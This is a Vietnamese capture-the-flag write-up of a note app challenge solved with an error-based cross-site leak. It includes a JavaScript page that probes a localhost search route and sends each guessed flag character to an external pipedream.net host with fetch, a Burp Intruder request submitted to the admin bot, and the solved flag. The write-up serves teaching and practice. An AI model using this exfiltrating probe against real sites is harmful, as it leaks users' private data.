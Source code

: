 ## Leak me if you can

Bài whitebox: Challenge là 1 trang có chức năng tạo note, đọc note và tìm kiếm note. Có 2 loại note là `is_admin` `1` hoặc `0`, flag nằm ở note `is_admin`.
Ngoài ra có chức năng report báo cáo 1 url cho admin và 1 con bot sẽ tự động đến xem.

```js
    async init() {
        return this.db.exec(`
            PRAGMA case_sensitive_like=ON; 

            DROP TABLE IF EXISTS notes;

            CREATE TABLE IF NOT EXISTS notes (
                id          INTEGER NOT NULL PRIMARY KEY AUTOINCREMENT,
                note        VARCHAR(255) NOT NULL,
                author       VARCHAR(255) NOT NULL,
                is_admin    BOOLEAN NOT NULL
            );

            INSERT INTO notes (id, note, author, is_admin) VALUES (0, "REDACTED", "nhienit", 1);
        `);
    }
```

Để là admin thì cần truy cập từ localhost

Review source code thì các chức năng đều an toàn, chú ý tới:
```js
// ........
const isAdmin = req => ((req.ip == '127.0.0.1') ? 1 : 0);
// ...........

router.get('/notes/search', (req, res) => {
	if(req.query.note) {
		const query = `${req.query.note}%`;
		return db.findNote(query, isAdmin(req))
			.then(notes => {
				if(notes.length == 0) return res.status(404).send(response('No  results!'));
				res.json(notes);
			})
			.catch(() => res.send(response('Something went wrong! Please try again!')));
	}
	return res.status(403).json(response('Missing "note" parameters!'));
});

// .............
```
![Screenshot (914)](https://user-images.githubusercontent.com/71699412/173526274-b65310f8-f85c-4396-b937-d5f2c6396c84.png)

![Screenshot (913)](https://user-images.githubusercontent.com/71699412/173526283-936a39b7-0a1f-456e-af73-0626c318449e.png)

Nếu tìm thấy note status code sẽ là `200` trong khi nếu không thì `404`. Ok đây là 1 bài XSLeak(error-based cross-site leaks), ta có thể dùng script để load thử route `/notes/search` tìm kiếm note, nếu đúng thì onload được, 404 sẽ là error: https://xsleaks.dev/docs/attacks/error-events/

`index.html`:
```html
<head>
  
</head>

<script>
function probeError(url, flag) {
  let script = document.createElement('script');
  script.src = url;
  script.onload = () => {
    fetch('https://eog308gfphj31fc.m.pipedream.net?flag='+flag)
  };
  script.onerror = () => console.log('Error event triggered');
  document.head.appendChild(script);
}

const urlParams = new URLSearchParams(window.location.search);
flag = urlParams.get('flag');

url = 'http://localhost:13337/notes/search?note='+flag;
probeError(url, flag);
</script>
```

Brute force thủ công bằng *Burpsuite Intruder* khi submit url đến `/report` cho con bot nhìn:
```
POST /report HTTP/1.1
Host: localhost:13337
Content-Length: 50
Content-Type: application/x-www-form-urlencoded
Connection: close

url=https://451d-8-21-11-111.ap.ngrok.io/?flag=KCSC{W0W_H4§target§
```

Flag chỉ có con bot nằm ở localhost mới thấy được. Bằng cách submit url trỏ đến trang `index.html` mình tự host, nếu onload không lỗi thì `fetch` đến pipe dream cùng kí tự vừa tìm thấy được, lặp đi lặp lại cho đến khi tìm được flag.

Có cách automate bằng python nhanh hơn nhưng công code thì mệt hơn

**flag**: `KCSC{W0W_H4v3_U_h3ard_4b0ut_XS_L34k?}`
